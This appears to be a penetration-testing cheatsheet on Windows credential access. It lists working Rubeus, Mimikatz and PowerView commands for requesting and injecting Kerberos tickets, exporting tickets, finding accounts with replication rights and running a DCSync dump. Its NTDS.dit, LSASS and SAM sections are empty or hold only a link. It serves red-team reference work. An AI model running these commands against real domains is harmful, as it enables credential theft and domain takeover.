 ```yaml
---
layout: post
title: TA0006 Credentials Access - NTDS.dit, LSASS.exe, SAM
parent: Pentesting
category: Pentesting
grand_parent: Cheatsheets
modified_date: 2022-09-07
permalink: /:categories/:title/
---
```


<!-- vscode-markdown-toc -->
* [PRE-REQUISITES](#PRE-REQUISITES)
	* [WHICH OS ? WHAT CREDS ?](#WHICHOSWHATCREDS)
	* [Rubeus](#Rubeus)
	* [Other tools](#Othertools)
* [Kerberos Ticket Manipulations](#KerberosTicketManipulations)
	* [Kerberos ASKTGT](#KerberosASKTGT)
	* [Import / Export Tickets](#ImportExportTickets)
* [DCSync attack](#DCSyncattack)
* [NTDS.dit dump](#NTDS.ditdump)
* [LSASS.exe dump](#LSASS.exedump)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

## <a name='PRE-REQUISITES'></a>PRE-REQUISITES

### <a name='WHICHOSWHATCREDS'></a>WHICH OS ? WHAT CREDS ?

![Windows Credentials by Auth. Service & by OS](/assets/images/win-delpy-creds-table-by-os-til-2012.png)

### <a name='Rubeus'></a>Rubeus 
```powershell
# compilation
```

### <a name='Othertools'></a>Other tools
- [Mimikatz binaries]()
- [Pypykatz]()
- [Abusing kerberos using impacket](https://www.hackingarticles.in/abusing-kerberos-using-impacket/)

## <a name='KerberosTicketManipulations'></a>Kerberos Ticket Manipulations 

[Wiki Rubeus](https://github.com/GhostPack/Rubeus)

### <a name='KerberosASKTGT'></a>Kerberos ASKTGT 
```powershell
# Path on VM Mandiant Commando
cd C:\Tools\GhostPack\Rubeus\Rubeus\bin\Debug
./Rubeus.exe asktgt /user:$zlat_user /password:"PASSWORD" /domain:$zdom /dc:$zdom_dc_fqdn /ptt
```

### <a name='ImportExportTickets'></a>Import / Export Tickets
```powershell
cd C:\tools\mimikatz\x64
mimikatz.exe privilege:debug
kerberos::list /export
```

## <a name='DCSyncattack'></a>DCSync attack

- [T1003.006](https://attack.mitre.org/techniques/T1003/006) DCSYNC

```powershell
# get the account's SID 
get-netuser $zlat_user -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn | select objectsid

# retrieve *most* users who can perform DC replication for dev.<Domain>.local (i.e. DCsync)
Get-DomainObjectAcl $zdom_dn -ResolveGUIDs  -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn | ? {
    ($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')
}

# check the ACL permissions
Get-ObjectAcl -Identity $zdom_dn -DomainController $zdom_dc_fqdn -Domain $zdom_fqdn -ResolveGUIDs | ? {$_.ObjectSID -match "S-1-5-21-xxx"}

# run the DCsync
mimikatz.exe privilege:debug
lsadump::dcsync /dc:$zdom_dc /domain:$zdom_fqdn /user:$zlat_user
```

## <a name='NTDS.ditdump'></a>NTDS.dit dump



## <a name='LSASS.exedump'></a>LSASS.exe dump

- [lsassy](https://github.com/Hackndo/lsassy)

## <a name='LSASS.exedump'></a>SAM dump
